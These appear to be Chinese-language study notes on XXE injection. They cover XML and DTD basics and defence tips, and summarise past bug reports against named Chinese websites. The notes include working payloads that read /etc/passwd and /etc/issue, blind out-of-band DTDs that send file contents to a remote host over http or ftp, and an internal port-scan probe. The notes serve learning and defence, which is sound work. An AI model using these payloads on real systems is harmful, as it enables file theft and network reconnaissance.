

### XXE
#### 基础
##### XML基础
XML被设计用于传输和存储数据是一种非常流行的标记语言，在1990年代后期首次标准化，并被无数的软件项目所采用。它用于配置文件，文档格式（如OOXML，ODF，PDF，RSS，...），图像格式（SVG，EXIF标题）和网络协议（WebDAV，CalDAV，XMLRPC，SOAP，XMPP，SAML， XACML，...），他应用的如此的普遍以至于他出现的任何问题都会带来灾难性的结果
##### XML文档结构
包括XML声明、DTD文档类型定义、文档元素
```xml
<!--XML申明-->
<?xml version="1.0"?> 
<!--文档类型定义-->
<!DOCTYPE note [  <!--定义此文档是 note 类型的文档-->
<!ELEMENT note (to,from,heading,body)>  <!--定义note元素有四个元素-->
<!ELEMENT to (#PCDATA)>     <!--定义to元素为”#PCDATA”类型-->
<!ELEMENT from (#PCDATA)>   <!--定义from元素为”#PCDATA”类型-->
<!ELEMENT head (#PCDATA)>   <!--定义head元素为”#PCDATA”类型-->
<!ELEMENT body (#PCDATA)>   <!--定义body元素为”#PCDATA”类型-->
]]]>
<!--文档元素-->
<note>
<to>Dave</to>
<from>Tom</from>
<head>Reminder</head>
<body>You are a good man</body>
</note>

```

##### DTD
XML有自己的格式规范，这个格式规范是由DTD控制的。DTD使用合法的元素来构建文档的结构。DTD文档中的重要关键字
- DOCTYPE（DTD的声明）
- ENTITY （实体声明）
- SYSTEM、PUBLIC（外部资源申请）

    ``
    
    <!DOCTYPE 根元素 [元素声明]>
    <!DOCTYPE 根元素 SYSTEM "文件名">
    ```

##### 实体
可以理解为变量，不过需要先声明再使用，按类型分为四种：
- 内置实体 Built-in entities
- 字符实体 Character entities
- 通用实体 General entities
- 参数实体 Parameter entities
根据引用方式，又可分为内部实体和外部实体。

##### 实体类别介绍
参数实体用%实体名称申明，引用时也用%实体名称;其余实体直接用实体名称申明，引用时用&实体名称。  
参数实体只能在DTD中申明，DTD中引用；其余实体只能在DTD中申明，可在xml文档中引用。  
```xml

<?xml version="1.0" encoding="utf-8"?>

<!DOCTYPE a [
    <!ENTITY name "m3lon">]>
<foo><value>&name;</value></foo>

<!DOCTYPE b [
    <!ENTITY % name SYSTEM 'file:///etc/passwd'>]>
    %name;
```
注意：%name（参数实体）是在DTD中被引用的，而&name（其余实体）是在xml文档中被引用的 
> 参数实体只能在DTD中申明，DTD中引用；其余实体只能在DTD中申明，可在xml文档中引用。

由于xxe漏洞主要是利用了DTD引用外部实体导致的漏洞，所以重点看能引用哪些类型的外部实体。
主要有file、http、https、ftp等，不同的语言程序支持的不同  

除了上述的默认支持协议，还包括开发语言的扩展支持协议。

#### XXE漏洞
XXE漏洞全称XML External Entity Injection xml外部实体注入漏洞，发生于应用程序解析XML输入时，没有禁止外部实体的加载，导致可加载任意外部文件，造成文件读取、命令执行、内部端口扫描、攻击内网网站、发起dos攻击等。xxe漏洞触发的点主要是可以上传xml文件的位置，没有对上传的xml文件进行过滤，导致可上传恶意的XML文件。  

#### 如何挖掘
最直接的回答就是： 甄别那些接受XML作为输入内容的端点。 但是有时候，这些端点可能并不是那么明显(比如，一些仅使用JSON去访问服务的客户端)。在这种情况下，渗透测试人员就必须尝试不同的测试方式，比如修改HTTP的请求方法，修改Content-Type头部字段等等方法，然后看看应用程序的响应，看看程序是否解析了发送的内容，如果解析了，那么则可能有XXE攻击漏洞。  

##### 漏洞检测
- 检测xml文件是否为成功解析
- 检测服务器是否支持DTD引用外部实体 （可通过其他漏洞查看日志判断）

##### 漏洞利用
分为有回显和无回显两种情况，有回显不用说了，没有回显-> blind xxe漏洞：  
构建一条带外信道提取数据，没看懂
- 可以把数据发送到远程服务器

#### 如何防御
- 使用开发语言提供的禁用外部实体的方法
- 过滤用户提交的XML数据，如过滤关键词`SYSTEM PUBLIC`


#### Reports

##### 搜狐XXE造成的任意文件读取
```
http://m.sogou.com/music/musicDownload.jsp?album=%E5%8F%A3%E9%9F%B3&clk=2&keyword=1&lyc=&lyricMatch=yes&p=1&qqdurl=http://cc.stream.qqmusic.qq.com/C100002T2WQy2NIgLS.m4a%3Ffromtag%3D52&s=%E7%AA%A6%E5%94%AF&singer=%E7%AA%A6%E5%94%AF&size=0&title=1&type=%E6%9C%AA%E7%9F%A5&uID=qE_VFO3qxwVsK7Gx&url=http://xxx.com/1&v=2&w=1111
```

姿势：  
漏洞验证：参数url存在xxe风险，无回显，用服务器日志验证，只要服务器接收到来源于解析服务器的请求，就证明存在XXE  
漏洞利用：POC
```xml
<!--文件1:-->
<?xml version="1.0" encoding="UTF-8" standalone="no" ?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://xxx.com/2">
%remote;
]>
</root>

```
```xml
<!--文件2:-->
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY % payload SYSTEM	"file:///etc/issue">
<!ENTITY % int "<!ENTITY &#37; trick SYSTEM 'http://xxx.com/%payload;'>">
%int;
%trick;
]>
</root>

```
不成功，有两种办法，改为ftp或者gopher
```xml
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE root[
<!ENTITY % payload SYSTEM	"file:///etc/issue">
<!ENTITY % int "<!ENTITY &#37; trick SYSTEM 'ftp://xxx.com/%payload;'>">
%int;
%trick;
]>
</root>

```
ftp协议，于是wireshark抓包，可以读取到/etc/issue文件。  


##### 满堂红集团任意文件上传getshell以及blind xxe
姿势：  
- 文件上传页面未授权可访问
- 文件上传直接getshell
- jboss sms_DS-ds.xml文件泄漏数据库信息从而导致信息泄漏  
blind xxe  
- 找到xml接口，直接post payload
```xml
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "/root">
%remote;
]>
```
显示500，/root是一个目录，说明成功解析。  
解决方案：禁止xml外部实体解析

##### 搜狐焦点主站Blind XXE利用Cloudeye神器测试
https://bugs.shuimugan.com/bug/view?bug_no=203510
工具：
- cloudeye  一个通过dns日志获取关键信息的工具
- http://ceye.io 可以获取到dns或者http的日志 在命令执行、SQL盲注、XXE方面都有作用 http://ceye.io/payloads
> SQL盲注、XXE无回显 都是本地浏览器无回显，但是可以通过带外传输，虽然这个词不知道自己用的对不对，传给服务器 https://www.cnblogs.com/leixiao-/p/9876313.html  


姿势：XXE用于探测内网端口  
poc
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root[
<!ENTITY dtd SYSTEM "http://127.0.0.1:22/">
]>
<xxe>&dtd;</xxe>
```
探测本机ssh端口的时候发现返回时间很长，说明是开放的。如果不存在，会返回一个很短的时间。

##### (湖南省旅游局某系统漏洞可GetShell以及XXE)[https://bugs.shuimugan.com/bug/view?bug_no=206221]
姿势：
- 找到任意文件上传的url getshell 读取jboss数据库配置文件 获取数据库信息  
- xxe的注入点，与上面案例相同，jboss的eapsoa/AjaxAdapter jboss默认端口8080，好多改成了9080


#### others
中间件：基于J2EE架构的中间件，所以什么是J2EE架构？什么又是中间件呢？  

如果返回数据为xml格式，可以测试一下，还有就是上传word，execl文档处。

参考：
- https://xz.aliyun.com/t/3357#toc-11

